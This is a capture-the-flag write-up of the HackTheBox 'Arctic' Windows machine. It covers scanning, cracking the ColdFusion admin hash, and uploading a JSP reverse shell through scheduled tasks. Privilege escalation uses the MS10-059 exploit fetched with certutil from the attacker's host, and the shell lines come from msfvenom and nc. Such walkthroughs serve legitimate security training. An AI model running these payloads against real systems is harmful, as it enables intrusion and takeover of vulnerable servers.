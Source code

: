 # HackTheBox - Arctic - Windows

## Nmap

```
┌──(root💀kali)-[~]
└─# nmap -T4 -sC -sV -O -Pn -p- 10.10.10.11  
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-15 16:14 EDT
Nmap scan report for 10.10.10.11
Host is up (0.022s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|phone|specialized
Running (JUST GUESSING): Microsoft Windows 8|Phone|2008|7|8.1|Vista|2012 (92%)
OS CPE: cpe:/o:microsoft:windows_8 cpe:/o:microsoft:windows cpe:/o:microsoft:windows_server_2008:r2 cpe:/o:microsoft:windows_7 cpe:/o:microsoft:windows_8.1 cpe:/o:microsoft:windows_vista::- cpe:/o:microsoft:windows_vista::sp1 cpe:/o:microsoft:windows_server_2012
Aggressive OS guesses: Microsoft Windows 8.1 Update 1 (92%), Microsoft Windows Phone 7.5 or 8.0 (92%), Microsoft Windows 7 or Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 (91%), Microsoft Windows Server 2008 R2 or Windows 8.1 (91%), Microsoft Windows Server 2008 R2 SP1 or Windows 8 (91%), Microsoft Windows 7 (91%), Microsoft Windows 7 Professional or Windows 8 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 R2 (91%), Microsoft Windows 7 SP1 or Windows Server 2008 SP2 or 2008 R2 SP1 (91%)
No exact OS matches for host (test conditions non-ideal).
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 229.52 seconds
```

## FMTP

- I find this fmtp protocol quite odd. Google was kinda frustrating on this so I just decided to try and go to the service with the browser: http://10.10.10.11:8500/
- And I got this page:  
![image](https://user-images.githubusercontent.com/96747355/163629674-5acab26a-b858-49a7-8cdc-4497677c6ef4.png)  
- Here is the content of the /cfdocs folder  
![image](https://user-images.githubusercontent.com/96747355/163629795-11f40e56-09a0-4cb4-8e01-9e27a15e2d80.png)  
- Let's try to get all files and folders with `wget -r --no-parent http://10.10.10.11:8500/` (it will take a while)
- The files seem to be related to coldfusion which is an adobe tool to develop web app.
- These [slides by Chris Gates](https://paper.bobylive.com/Security/LARES-ColdFusion.pdf) about coldfusion are very useful. This [wiki](https://nets.ec/Coldfusion_hacking) by nets.ec is also very useful
- Another useful article [here](https://www.gnucitizen.org/blog/coldfusion-directory-traversal-faq-cve-2010-2861/)
- We know that it is using Adobe Coldfusion 8:  
![image](https://user-images.githubusercontent.com/96747355/163635400-a11f639e-0316-4fea-9959-e65e2ce159ef.png)  
- version `8,0,1,195765` to be exact:  
![image](https://user-images.githubusercontent.com/96747355/163635508-c709c74e-c14d-4bd0-884c-44eb3ea489da.png)  
- We have a login panel here: http://10.10.10.11:8500/CFIDE/administrator/
- We have the hash of the admin  

```bash
#Wed Mar 22 20:53:51 EET 2017 rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP \n password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 encrypted=true 
```
![image](https://user-images.githubusercontent.com/96747355/163635889-e7680cdf-619b-4e4f-b79c-c116d8fe1bef.png)  

- If we go on crackstation.net we can easily find the password `happyday`  

![crackstation](../.res/2022-09-04-07-14-23.png)  

- We can then connect to the panel  

![coldfusion](../.res/2022-09-04-07-18-51.png)  

- If we follow the slides by Chris Gates (page 85), turns out we can get rce using the schedule tasks
- Let's make a reverse shell exe file with msfvenom
  - `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with meterpreter or `msfvenom -p windows/shell/reverse_tcp LHOST=10.10.14.2 LPORT=4444 -f exe > shell.exe` if you catch it with netcat
  - Set up a listener `rlwrap nc -lvp 4444`
  - We server our exe `python3 -m http.server 80`
- Now to execute it we have to click on "Schedule New Task" let's make it every minute and a half (has to be greater than 60 seconds) 
- the url is going to be `http://10.10.14.2/shell.exe`
- Let's try like this for now  
![Scheduled task](../.res/2022-09-04-08-26-35.png)
> For some reason the chars were written in greek so I had to write am and pm in greek... I do not speak greek at all but google showed me how to write `am` in greek. See here: https://www.proz.com/kudoz/english-to-greek/general-conversation-greetings-letters/684823-am-pm.html
  
> NOTE: I found out later that the time does not matter we can basically manually launch the tasks

- Ok another try without the greek chars cause it does not seem to work as well so if I type ony `08:30` instead of `8:37 πμ` the task is scheduled. 

![shell2](../.res/2022-09-04-08-36-31.png)

- Third try
![3rd try](../.res/2022-09-04-08-48-58.png)  
- This is asking for a valid dir name. We can find some in server settings > Mappings (our file will be uploaded there so make sure to put it somewhere you will easily find it)
![mappings](../.res/2022-09-04-08-51-34.png)
- Now we can modify our task accordingly `C:\ColdFusion8\wwwroot\CFIDE\shell.exe`
![proper path](../.res/2022-09-04-08-53-24.png)
- Now let's do our system probe (page 87 of the slides)
- We click on define new probe
![probe](../.res/2022-09-04-09-00-53.png)
![probe2](../.res/2022-09-04-09-02-32.png)


> I do not get a shell this way either with meterpreter or nc even though the files are being fetch from my http server.

- Let's try to upload another type of payload and execute it through the directory listing misconfiguration. Let's try jsp (according to the doc "ColdFusion pages and JSP pages can interoperate in several ways" see here: https://helpx.adobe.com/coldfusion/developing-applications/using-web-elements-and-external-objects/integrating-jee-and-java-elements-in-cfml-applications/interoperating-with-jsp-pages-and-servlets.html)
- `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.2 LPORT=5555 -f raw > shell.jsp` We generate our jsp shell
- `rlwrap nc -lvp 5555` we set our listener
- We upload it to our target with the scheduled Task
- This time our URL is `http://10.10.14.2/shell.jsp`
- And our output has to be saved like this: `C:\ColdFusion8\wwwroot\CFIDE\shell.jsp`
![jsp upload](../.res/2022-09-04-10-13-39.png)  
- I forgot to mention it before but the time does not really matter because we can just launch a task by clicking on the green icon here in front of the task  
![green icon](../.res/2022-09-04-10-15-38.png)
- Our shell gets fetch  
![fetch jsp](../.res/2022-09-04-10-16-19.png)
- And it is in our target  
![jsp in target](../.res/2022-09-04-10-17-08.png)
- Let's click on it and pray to catch the shell this time :)
- It finally works!!
![shell](../.res/2022-09-04-10-19-57.png)
- We get a shell as tolis

```dos
whoami
arctic\tolis
```

- Let's get the user flag  
![get user](../.res/2022-09-04-10-24-10.png)

> Another way (without needing the password) would also have been to use Metasploit https://www.exploit-db.com/exploits/16788 or a script like this one https://github.com/zaphoxx/zaphoxx-coldfusion/blob/main/2265.py
> - We would take the python script in our target, 
> - Generate the jsp with msfvenom, 
> - Setup our listener, 
> - And launch the python script that will upload our shell to the target
> - Navigate to the page with our shell

## Privesc

- Let's make a systeminfo and copy the output in a file to find an exploit
- We can use Windows exploit suggester on it `wes --update` first we update the db
- Then we pass it our file `wes sysinfo.txt `
- We can focus on privesc with this command `wes sysinfo.txt | grep -A8 "Elevation of Privilege"`
- We have this here which is also MS10-059

```bash
CVE: CVE-2010-2554
KB: KB982799
Title: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege
Affected product: Windows Server 2008 R2 for x64-based Systems
Affected component: 
Severity: Important
Impact: Elevation of Privilege
Exploit: n/a
```
- Let's take the exploit in our attacking machine `wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe`
- We serve it with python web server
- We take it in our target `certutil.exe -urlcache -f http://10.10.14.2/MS10-059.exe MS10-059.exe`
- We set up a listener `rlwrap nc -lvp 5556`
- `MS10-059.exe 10.10.14.2 5556` we run our exploit (we wait a little)
- We have a root shell  
![root shell](../.res/2022-09-04-12-31-53.png)
- We just need to grab the root flag :)  
![root flag](../.res/2022-09-04-12-32-50.png)
